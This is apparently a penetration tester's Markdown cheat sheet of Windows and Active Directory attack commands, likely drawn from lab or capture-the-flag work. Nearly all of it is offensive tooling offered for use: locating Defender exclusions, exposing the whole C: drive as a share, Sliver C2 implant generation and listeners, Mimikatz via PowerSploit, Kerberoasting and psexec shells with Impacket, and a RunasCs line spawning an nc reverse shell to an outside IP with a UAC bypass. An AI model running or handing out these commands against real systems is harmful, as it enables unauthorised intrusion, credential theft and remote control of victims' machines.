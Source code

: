 ## Check permissions 
##### Check permissions of folder
```sh
icacls "C:\Program Files"
```
##### Check user privs
```sh
whoami /priv
```
##### Info about user
```
net user USERNAME
```
##### Info about group
```
net group GROUPNAME
```

### Find Defender Exclusions
##### As low permission user
```powershell
Get-WinEvent -LogName "Microsoft-Windows-Windows Defender/Operational" | Where-Object { $_.Id -eq 5007 -and $_.Message -match "Exclusions" } | ForEach-Object { if ($_.Message -match "SOFTWARE\\Microsoft\\Windows Defender\\Exclusions\\Paths\\[^\s]+") { $matches[0] } }
```

### Make file system accessible with creating a share
```
New-SmbShare -Name SHIT_SHARE -Description "test" -Path C:\
```


## WinRM (Port 5985)
##### Connect
```sh
evil-winrm -i IP -u "USERNAME" -p 'PASSWORD'
```
##### Connect with certificate and private key (pfx)
```sh
evil-winrm -i IP -c pub.pem -k priv.pem -S -r DOMAIN
```
##### List user info
```sh
net user USERNAME
```
##### List running services
```sh
services
```
###### Upload file to box
```sh
upload FILEPATH
```

## Sliver (C2)
```sh
$ ./sliver-server-linux

sliver> generate --mtls 10.10.16.9 --os windows // generate binary

sliver> mtls // start listener

// Upload binary to box and run it

// CALLBACK
sliver> use <TAB>
```

### SOCKS5 SLIVER

```sh
sliver> socks5 start

$ proxychains4 nc 127.0.0.1 100
```

## [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)
Transfer `PowerSploit` folder to box
```ps1
Import-Module .\PowerSploit.psd1
OR
> . .\Powermad.ps1

Get-Command -Module PowerSploit
get-help Invoke-Mimikatz -examples
```

## [AD Pentest Suite](https://github.com/theyoge/AD-Pentesting-Tools) 

## Find Powershell history file
```sh
Get-ChildItem -Path "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine"
```

## Bloodhound
##### Bloodhound (gather data)
```sh
bloodhound-python -u svc-printer -p '1edFg43012!!' -ns 10.129.201.79 -d return.local -c all
```
##### SharpHound
```sh
.\SharpHound.exe --CollectionMethods All --ZipFileName output.zip
```
##### Start Bloodhound
```sh
sudo neo4j console
bloddhound
```

## ImPacket
##### List AD users
```sh
impacket-GetADUsers -all -dc-ip IP DOMAIN/USERNAME
```
##### Kerberoast
```sh
impacket-GetUserSPNs -request -dc-ip IP DOMAIN/USERNAME
```
##### PSExec (Get shell)
```sh
impacket-psexec DOMAIN/USERNAME@IP
```


### RunAs with password
```sh
.\RunasCs.exe backup password "nc64.exe 10.10.14.139 4444 -e cmd.exe" --bypass-uac --logon-type '8' 
```
